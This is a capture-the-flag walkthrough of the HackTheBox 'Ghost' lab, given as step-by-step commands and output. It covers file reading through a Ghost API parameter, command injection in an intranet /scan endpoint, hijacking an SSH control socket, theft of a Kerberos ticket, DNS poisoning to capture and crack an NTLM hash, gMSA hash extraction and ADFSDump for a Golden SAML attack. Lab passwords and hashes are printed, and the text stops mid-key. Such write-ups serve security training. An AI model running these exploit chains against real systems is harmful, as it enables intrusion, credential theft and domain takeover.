a5af628828958c976a3b6cc81a
```

I will now attempt to read `/etc/passwd`

```python
curl 'http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../etc/passwd'         
{"posts":[{"id":"65bdd2dc26db7d00010704b5","uuid":"22db47b3-bbf6-426d-9fcf-887363df82cf","title":"Embarking on the Supernatural Journey: Welcome to Ghost!","slug":"embarking-on-the-supernatural-journey-welcome-to-ghost","html":"<p>Greetings, fellow seekers of the unknown!</p><p>It is with great excitement and a touch of trepidation that we welcome you to the digital realm of Ghost, your go-to destination for unraveling the mysteries that lie beyond the veil of the ordinary. As we embark on this supernatural journey together, allow us to extend our hand and guide you through the shadowy corridors of the unexplained.</p><h2 id=\"why-ghost\">Why Ghost?</h2><p>The quest to understand the supernatural has been etched into the fabric of human history. From ancient legends to modern-day tales, the fascination with ghosts and the paranormal is a thread that binds us across time and cultures. Ghost emerges as a beacon for those who yearn to explore the realms beyond our comprehension.</p><h2 id=\"what-to-expect\">What to Expect</h2><p>Our digital abode is more than just a collection of stories; it's a haven for the curious, the intrepid, and the inquisitive. Here, you'll find:</p><ol><li><strong>Investigative Chronicles</strong>: Join us as we recount our journeys into haunted locations, sharing the spine-chilling encounters, unexplained phenomena, and the secrets that linger in the darkness.</li><li><strong>Tech Tuesdays</strong>: Stay at the forefront of paranormal research with our weekly dives into the latest ghost-hunting gadgets, software, and techniques. Knowledge is our strongest ally in the face of the unknown.</li><li><strong>Spotlight Series</strong>: Get to know the passionate individuals behind the investigations. Our Spotlight Series puts a face to the name, sharing the stories and expertise of our dedicated team.</li><li><strong>Community Corner</strong>: Ghost is more than a website; it's a community. Share your own supernatural experiences, theories, and questions in our Community Corner. Together, we amplify the voices seeking to understand the inexplicable.</li></ol><h2 id=\"join-us-on-this-extraordinary-expedition\">Join Us on this Extraordinary Expedition</h2><p>The journey into the paranormal is not for the faint of heart, but it is a journey worth taking. As we lift the veil on the mysteries that surround us, we invite you to be an active participant in this extraordinary expedition. Engage with our content, share your thoughts, and let the spirit of exploration guide us into uncharted territories.</p><p>Ghost is not just a website; it's a portal to the enigmatic, a gateway to the supernatural, and a testament to the boundless curiosity that defines the human spirit.</p><p>Welcome to our realm. Let the haunting begin!</p><p>Happy ghost hunting,</p><p>The Ghost Team</p>","comment_id":"659cdeec9cd6330001baefbf","feature_image":null,"featured":true,"visibility":"public","created_at":"2024-01-09T05:51:40.000+00:00","updated_at":"2024-01-09T05:52:59.000+00:00","published_at":"2024-01-09T05:52:29.000+00:00","custom_excerpt":null,"codeinjection_head":null,"codeinjection_foot":null,"custom_template":null,"canonical_url":null,"url":"http://ghost.htb/embarking-on-the-supernatural-journey-welcome-to-ghost/","excerpt":"Greetings, fellow seekers of the unknown!\n\nIt is with great excitement and a touch of trepidation that we welcome you to the digital realm of Ghost, your go-to destination for unraveling the mysteries that lie beyond the veil of the ordinary. As we embark on this supernatural journey together, allow us to extend our hand and guide you through the shadowy corridors of the unexplained.\n\n\nWhy Ghost?\n\nThe quest to understand the supernatural has been etched into the fabric of human history. From anc","reading_time":1,"access":true,"comments":false,"og_image":null,"og_title":null,"og_description":null,"twitter_image":null,"twitter_title":null,"twitter_description":null,"meta_title":null,"meta_description":null,"email_subject":null,"frontmatter":null,"feature_image_alt":null,"feature_image_caption":null}],"meta":{"pagination":{"page":1,"limit":15,"pages":1,"total":1,"next":null,"prev":null},"extra":{"../../../../etc/passwd":"root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nnode:x:1000:1000:Linux User,,,:/home/node:/bin/sh\n"}}}  
```

As seen here, at the bottom of the output i can read files, which means i should be able to dump the `DEV_INTRANET_KEY` to then get RCE

```python
curl 'http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../var/lib/ghost/extra/important' 

...[SNIP]...

"extra":{"../../../../var/lib/ghost/extra/important":"659cdeec9cd6330001baefbf\n"}}}  
```

So there was nothing else interesting this file



So from this screenshot i can assume the database is at the path: `/var/lib/ghost/content/data/ghost.db`

Upon output of this file, i see it is massive and would be a pain to find the exact value i want, so instead ill check `/proc/self/environ` since its exported as an environment variable in the repo

```python
curl 'http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../proc/self/environ'

...[SNIP]...

"extra":{"../../../../proc/self/environ":"HOSTNAME=26ae7990f3dd\u0000database__debug=false\u0000YARN_VERSION=1.22.19\u0000PWD=/var/lib/ghost\u0000NODE_ENV=production\u0000database__connection__filename=content/data/ghost.db\u0000HOME=/home/node\u0000database__client=sqlite3\u0000url=http://ghost.htb\u0000DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe\u0000database__useNullAsDefault=true\u0000GHOST_CONTENT=/var/lib/ghost/content\u0000SHLVL=0\u0000GHOST_CLI_VERSION=1.25.3\u0000GHOST_INSTALL=/var/lib/ghost\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000NODE_VERSION=18.19.0\u0000GHOST_VERSION=5.78.0\u0000"
```

I now have the `DEV_INTRANET_KEY`

```python
DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe
```

## Remote code execution on the Ubuntu server

```python
// Scans an url inside a blog post
// This will be called by the blog to ensure all URLs in posts are safe
#[post("/scan", format = "json", data = "<data>")]
pub fn scan(_guard: DevGuard, data: Json<ScanRequest>) -> Json<ScanResponse> {
    // currently intranet_url_check is not implemented,
    // but the route exists for future compatibility with the blog
    let result = Command::new("bash")
        .arg("-c")
        .arg(format!("intranet_url_check {}", data.url))
        .output();
```

This code is in the intranet repo, specifically `intranet/backend/src/api/dev/scan.rs`

This code takes json input from the POST request and processes it using bash, this is the RCE vector i mentioned earlier in the `/scan` endpoint

Anything placed inside `{"url":"<value>"}` will be ran with bash

```python
use rocket::http::Status;
use rocket::Request;
use rocket::request::{FromRequest, Outcome};

pub(crate) mod scan;

pub struct DevGuard;

#[rocket::async_trait]
impl<'r> FromRequest<'r> for DevGuard {
    type Error = ();

    async fn from_request(request: &'r Request<'_>) -> Outcome<Self, Self::Error> {
        let key = request.headers().get_one("X-DEV-INTRANET-KEY");
        match key {
            Some(key) => {
                if key == std::env::var("DEV_INTRANET_KEY").unwrap() {
                    Outcome::Success(DevGuard {})
                } else {
                    Outcome::Error((Status::Unauthorized, ()))
                }
            },
            None => Outcome::Error((Status::Unauthorized, ()))
        }
    }
}
```

However this was the code that meant i couldnt reach the endpoint to get RCE without the `DEV_INTRANET_KEY` which was stored an environment variable, which i now have through LFI

As seen in this code stored at `intranet/backend/src/api/dev.rs` it takes the environments variable as a HTTP header in the request to the endpoint then matches the value to the environment variable if it matches you can reach the endpoint if not it returns an error



This screenshot from the intranet repo readme shows the API is at `/api-dev` and i already know the vulnerable endpoint is `/scan`, so the endpoint is going to be `/api-dev/scan`

```python
curl -X POST http://intranet.ghost.htb:8008/api-dev/scan -H 'Content-Type: application/json' -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' --data '{"url":"http://localhost; id"}' | jq .
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100    217 100    187 100     30   4110    659                              0
{
  "is_safe": true,
  "temp_command_success": true,
  "temp_command_stdout": "uid=0(root) gid=0(root) groups=0(root)\n",
  "temp_command_stderr": "bash: line 1: intranet_url_check: command not found\n"
}
```

I now have RCE

All i needed to do was set the request to POST like it says to do in `scan.rs` and pass the valid key found via LFI as well as the content type header, then simply pass the command into the json body

Its also worth noting the app is already running as root so after getting a shell i shouldnt need to do any priv esc

```python
penelope -p 1337
```

So ill start a listener



Ill send the request



I now have a root shell on the container running on the ubuntu server

## Access as `florence.ramirez` on the ubuntu server (container escape)

```python
root@36b733906694:~/.ssh/controlmaster# ls -la
total 12
drwxr-xr-x 1 root root 4096 Aug 27 15:51 .
drwxr-xr-x 1 root root 4096 Jul  5  2024 ..
srw------- 1 root root    0 Aug 27 15:51 florence.ramirez@ghost.htb@dev-workstation:22
```

I have found a controlmaster socket file for a user called `florence.ramirez`

```python
root@36b733906694:~# ssh -S ~/.ssh/controlmaster/florence.ramirez@ghost.htb@dev-workstation:22 florence.ramirez@ghost.htb
Last login: Thu Feb  1 23:58:45 2024 from 172.18.0.1
florence.ramirez@LINUX-DEV-WS01:~$
```

I can use this to login to the machine, now escaping the container

```python
florence.ramirez@LINUX-DEV-WS01:/$ id
uid=50(florence.ramirez) gid=50(staff) groups=50(staff),51(it)
```

I am part of two interesting groups

```python
florence.ramirez@LINUX-DEV-WS01:/$ find / -group it 2>/dev/null
```

There are no files belonging to the IT group

```python
florence.ramirez@LINUX-DEV-WS01:/$ find / -group staff 2>/dev/null

...[SNIP]...

/tmp/krb5cc_50
```

Looks like i have found a kerberos ticket

```python
florence.ramirez@LINUX-DEV-WS01:/$ klist
Ticket cache: FILE:/tmp/krb5cc_50
Default principal: florence.ramirez@GHOST.HTB

Valid starting     Expires            Service principal
08/27/26 18:42:01  08/28/26 04:42:01  krbtgt/GHOST.HTB@GHOST.HTB
	renew until 08/28/26 18:42:01
florence.ramirez@LINUX-DEV-WS01:/$
```

Ill use this ticket to get initial access the domain!

## Initial access on the domain

```python
florence.ramirez@LINUX-DEV-WS01:/$ cat /tmp/krb5cc_50 | base64
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
```

Ill encode the output of the ticket in base64 then output it to the screen, ill then copy this to my machine and save it to a file **making sure the ticket is on ONE line** 

```python
cat florenceramirez.b64 | base64 -d | tee florenceramirez.ccache
```

So once the file is on one line ill decode the base64 and direct the output to the ccache file

```python
export KRB5CCNAME=florenceramirez.ccache
```

Now i can test access

```python
nxc smb dc01.ghost.htb --use-kcache                      
SMB         dc01.ghost.htb  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.ghost.htb  445    DC01             [+] GHOST.HTB\florence.ramirez from ccache
```

IT WORKS!

## Domain enumeration as `florence.ramirez`

```python
nxc smb dc01.ghost.htb --use-kcache --shares
SMB         dc01.ghost.htb  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.ghost.htb  445    DC01             [+] GHOST.HTB\florence.ramirez from ccache 
SMB         dc01.ghost.htb  445    DC01             [*] Enumerated shares
SMB         dc01.ghost.htb  445    DC01             Share           Permissions     Remark
SMB         dc01.ghost.htb  445    DC01             -----           -----------     ------
SMB         dc01.ghost.htb  445    DC01             ADMIN$                          Remote Admin
SMB         dc01.ghost.htb  445    DC01             C$                              Default share
SMB         dc01.ghost.htb  445    DC01             IPC$            READ            Remote IPC
SMB         dc01.ghost.htb  445    DC01             NETLOGON        READ            Logon server share 
SMB         dc01.ghost.htb  445    DC01             SYSVOL          READ            Logon server share 
SMB         dc01.ghost.htb  445    DC01             Users           READ    
```

Read access on the `Users` share

```python
nxc smb dc01.ghost.htb --use-kcache --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
GHOST-CORP$
kathryn.holland
cassandra.shelton
robert.steeves
florence.ramirez
justin.bradley
arthur.boyd
beth.clark
charles.gray
jason.taylor
intranet_principal
gitea_temp_principal
LINUX-DEV-WS01$
adfs_gmsa$
```

Ill get a user list

## Adding DNS record to coerce authentication

So if i remember earlier i saw a message on the intranet that the connection to `bitbucket` wasnt working and the sysadmin replied saying the DNS entry does not yet exist

Now i have domain credentials i should be able to add one for bitbucket, and place it with my IP address

```python
sudo responder -I tun0
```

So first ill start responder to catch the NTLM hash

```python
bloodyAD --host dc01.ghost.htb -d ghost.htb -u florence.ramirez -k ccache=florenceramirez.ccache add dnsRecord bitbucket 10.10.14.61 
[+] bitbucket has been successfully added
```

Ill add the record

```python
[HTTP] NTLMv2 Client   : 10.129.231.105
[HTTP] NTLMv2 Username : ghost\justin.bradley
[HTTP] NTLMv2 Hash     : justin.bradley::ghost:56a79b065d3a02e7:D3195C318FD443E3A6CA8228EA6ED4D4:01010000000000000D04B6A81037DD01CCCC6EAA7F36B7FB0000000002000800340055004200590001001E00570049004E002D00390052003900320046005A003100540032004C0030000400140034005500420059002E004C004F00430041004C0003003400570049004E002D00390052003900320046005A003100540032004C0030002E0034005500420059002E004C004F00430041004C000500140034005500420059002E004C004F00430041004C0008003000300000000000000000000000004000004AB0601A88C79EF7BA7A8C1EB627D5D3E57C867D76BFD9186420A811F627AEB00A001000000000000000000000000000000000000900300048005400540050002F006200690074006200750063006B00650074002E00670068006F00730074002E006800740062000000000000000000
```

Now ill crack the hash

```python
hashcat 'justin.bradley::ghost:56a79b065d3a02e7:D3195C318FD443E3A6CA8228EA6ED4D4:01010000000000000D04B6A81037DD01CCCC6EAA7F36B7FB0000000002000800340055004200590001001E00570049004E002D00390052003900320046005A003100540032004C0030000400140034005500420059002E004C004F00430041004C0003003400570049004E002D00390052003900320046005A003100540032004C0030002E0034005500420059002E004C004F00430041004C000500140034005500420059002E004C004F00430041004C0008003000300000000000000000000000004000004AB0601A88C79EF7BA7A8C1EB627D5D3E57C867D76BFD9186420A811F627AEB00A001000000000000000000000000000000000000900300048005400540050002F006200690074006200750063006B00650074002E00670068006F00730074002E006800740062000000000000000000' /usr/share/wordlists/rockyou.txt

JUSTIN.BRADLEY::ghost:56a79b065d3a02e7:d3195c318fd443e3a6ca8228ea6ed4d4:01010000000000000d04b6a81037dd01cccc6eaa7f36b7fb0000000002000800340055004200590001001e00570049004e002d00390052003900320046005a003100540032004c0030000400140034005500420059002e004c004f00430041004c0003003400570049004e002d00390052003900320046005a003100540032004c0030002e0034005500420059002e004c004f00430041004c000500140034005500420059002e004c004f00430041004c0008003000300000000000000000000000004000004ab0601a88c79ef7ba7a8c1eb627d5d3e57c867d76bfd9186420a811f627aeb00a001000000000000000000000000000000000000900300048005400540050002f006200690074006200750063006b00650074002e00670068006f00730074002e006800740062000000000000000000:Qwertyuiop1234$$
```

The hash cracked

```python
nxc smb dc01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'
SMB         10.129.231.105  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.231.105  445    DC01             [+] ghost.htb\justin.bradley:Qwertyuiop1234$$
```



This user is part of remote management users!

## Access over WINRM as `justin.bradley`

```python
evil-winrm -i dc01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$'                  
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\justin.bradley\Documents>
```

I now have a shell!

## Enumeration as `justin.bradley`



I can read the gMSA password for the `adfs_gmsa$` account

## Compromising `adfs_gmsa$`

```python
nxc ldap dc01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$' --gmsa
LDAP        10.129.231.105  389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:ghost.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.231.105  389    DC01             [+] ghost.htb\justin.bradley:Qwertyuiop1234$$ 
LDAP        10.129.231.105  389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.231.105  389    DC01             Account: adfs_gmsa$           NTLM: 55eea5db159b96bcb1d335d6e5738ea6     PrincipalsAllowedToReadPassword: ['DC01$', 'justin.bradley']
```

Ill just use `justin.bradley`'s access to read the NTLM hash for the user

```python
nxc smb dc01.ghost.htb -u adfs_gmsa$ -H '55eea5db159b96bcb1d335d6e5738ea6'
SMB         10.129.231.105  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.231.105  445    DC01             [+] ghost.htb\adfs_gmsa$:55eea5db159b96bcb1d335d6e5738ea6
```

This user is now compromised

## Access on WINRM as `adfs_gmsa$`

```python
evil-winrm -i dc01.ghost.htb -u adfs_gmsa$ -H '55eea5db159b96bcb1d335d6e5738ea6'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adfs_gmsa$\Documents>
```

I now have access as this user

## Golden SAML attack

So first ill need to grab ADFSDump from the sharpcollection github since i dont fancy compiling it

```python
*Evil-WinRM* PS C:\Temp> .\ADFSDump.exe
    ___    ____  ___________ ____
   /   |  / __ \/ ____/ ___// __ \__  ______ ___  ____
  / /| | / / / / /_   \__ \/ / / / / / / __ `__ \/ __ \
 / ___ |/ /_/ / __/  ___/ / /_/ / /_/ / / / / / / /_/ /
/_/  |_/_____/_/    /____/_____/\__,_/_/ /_/ /_/ .___/
                                              /_/
Created by @doughsec


## Extracting Private Key from Active Directory Store
[-] Domain is ghost.htb
[-] Private Key: FA-DB-3A-06-DD-CD-40-57-DD-41-7D-81-07-A0-F4-B3-14-FA-2B-6B-70-BB-BB-F5-28-A7-21-29-61-CB-21-C7


[-] Private Key: 8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1


## Reading Encrypted Signing Key from Database
[-] Encrypted Token Signing Key Begin
AAAAAQAAAAAEEAFyHlNXh2VDska8KMTxXboGCWCGSAFlAwQCAQYJYIZIAWUDBAIBBglghkgBZQMEAQIEIN38LpiFTpYLox2V3SL3knZBg16utbeqqwIestbeUG4eBBBJvH3Vzj/Slve2Mo4AmjytIIIQoMESvyRB6RLWIoeJzgZOngBMCuZR8UAfqYsWK2XKYwRzZKiMCn6hLezlrhD8ZoaAaaO1IjdwMBButAFkCFB3/DoFQ/9cm33xSmmBHfrtufhYxpFiAKNAh1stkM2zxmPLdkm2jDlAjGiRbpCQrXhtaR+z1tYd4m8JhBr3XDSURrJzmnIDMQH8pol+wGqKIGh4xl9BgNPLpNqyT56/59TC7XtWUnCYybr7nd9XhAbOAGH/Am4VMlBTZZK8dbnAmwirE2fhcvfZw+ERPjnrVLEpSDId8rgIu6lCWzaKdbvdKDPDxQcJuT/TAoYFZL9OyKsC6GFuuNN1FHgLSzJThd8FjUMTMoGZq3Cl7HlxZwUDzMv3mS6RaXZaY/zxFVQwBYquxnC0z71vxEpixrGg3vEs7ADQynEbJtgsy8EceDMtw6mxgsGloUhS5ar6ZUE3Qb/DlvmZtSKPaT4ft/x4MZzxNXRNEtS+D/bgwWBeo3dh85LgKcfjTziAXH8DeTN1Vx7WIyT5v50dPJXJOsHfBPzvr1lgwtm6KE/tZALjatkiqAMUDeGG0hOmoF9dGO7h2FhMqIdz4UjMay3Wq0WhcowntSPPQMYVJEyvzhqu8A0rnj/FC/IRB2omJirdfsserN+WmydVlQqvcdhV1jwMmOtG2vm6JpfChaWt2ou59U2MMHiiu8TzGY1uPfEyeuyAr51EKzqrgIEaJIzV1BHKm1p+xAts0F5LkOdK4qKojXQNxiacLd5ADTNamiIcRPI8AVCIyoVOIDpICfei1NTkbWTEX/IiVTxUO1QCE4EyTz/WOXw3rSZA546wsl6QORSUGzdAToI64tapkbvYpb